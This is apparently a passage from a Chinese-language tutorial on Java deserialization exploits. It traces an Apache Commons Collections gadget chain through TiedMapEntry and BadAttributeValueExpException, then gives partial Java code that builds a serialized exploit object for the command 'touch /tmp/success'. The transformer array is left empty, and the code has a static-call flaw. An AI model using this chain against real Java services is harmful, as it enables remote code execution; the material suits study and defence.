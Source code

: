 ![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190811010119.png)

`TiedMapEntry`类的`toString`和`hasCode`方法都会调用`getValue`这个方法，而`getValue`中调用了`map`的`get`方法。

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190811005918.png)

现在我们的目标变成了如何触发`TiedMapEntry`类的`toString`方法。

`jdk1.8.0_191.jdk/Contents/Home/src.zip!/javax/management/BadAttributeValueExpException.java`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190811010538.png)

在jdk1.8中存在`BadAttributeValueExpException`这个类，它的`readObj`方法中直接调用了`valObj`的`toString`方法，`valObj`是当前对象的 val 属性，一个完美的“入口”。

在找到一条pop链之后，下一步的任务就是构造exp，由于对java不是很熟，中间可能会穿插一部分基础知识。

```java
public class UnserTest {
    public BadAttributeValueExpException getObject(String command) throws NoSuchFieldException, IllegalAccessException {
        Transformer[] transformers = new Transformer[] {
					//这里是重点
        };
      
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        Map toolMap = new HashMap(); //工具人map，没什么用
        Map lazyMap = LazyMap.decorate(toolMap, chainedTransformer); //lazyMap的构造方法为protected，无法直接调用
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "toolsKey"); //key可以是任意字符串，无影响

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null); //入口
        //val是私用变量，不能用.val直接修改
        Field valField = badAttributeValueExpException.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(badAttributeValueExpException, tiedMapEntry);

        return badAttributeValueExpException;
    }

    public static void main(String[] args) throws Exception {
        BadAttributeValueExpException object = getObject("touch /tmp/success");
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object); //
        objectOutputStream.flush();
        objectOutputStream.close();

        String encodeStr = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        //System.out.println(byteArrayOutputStream.toString());
        System.out.println(encodeStr);
    }
}
```
